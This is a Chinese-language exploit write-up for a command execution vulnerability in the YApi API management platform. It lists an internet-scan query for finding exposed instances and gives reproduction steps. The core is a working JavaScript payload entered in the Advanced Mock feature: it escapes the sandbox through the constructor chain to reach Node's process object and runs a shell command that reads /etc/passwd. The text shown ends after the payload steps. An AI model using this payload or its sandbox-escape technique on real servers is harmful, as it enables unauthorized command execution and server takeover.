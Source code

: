 # YApi 接口管理平台 后台命令执行漏洞

# YApi 接口管理平台 后台命令执行漏洞

## 漏洞描述

YApi 接口管理平台 后台存在命令执行漏洞，攻击者通过发送特定的请求可执行任意命令获取服务器权限

## 漏洞影响

```
YApi 接口管理平台
```

## 网络测绘

```
app="YApi"
```

## 漏洞复现

登录页面

![](/images/202202091829002.png)



首先需要注册账户并登录



![](/images/202202091829520.png)



![](/images/202202091829602.png)



添加项目，参数任意



创建后点击 高级Mock 输入如下Payload



```javascript
const sandbox = this; // 获取Context
const ObjectConstructor = this.constructor; // 获取 Object 对象构造函数
const FunctionConstructor = ObjectConstructor.constructor; // 获取 Function 对象构造函数
const myfun = FunctionConstructor('return process'); // 构造一个函数，返回process全局变量
const process = myfun();
mockJson = process.mainModule.require("child_process").execSync("cat /etc/passwd").toString()
```



![](/images/202202091830184.png)



预览处点击项目链接



![](/images/202202091830086.png)


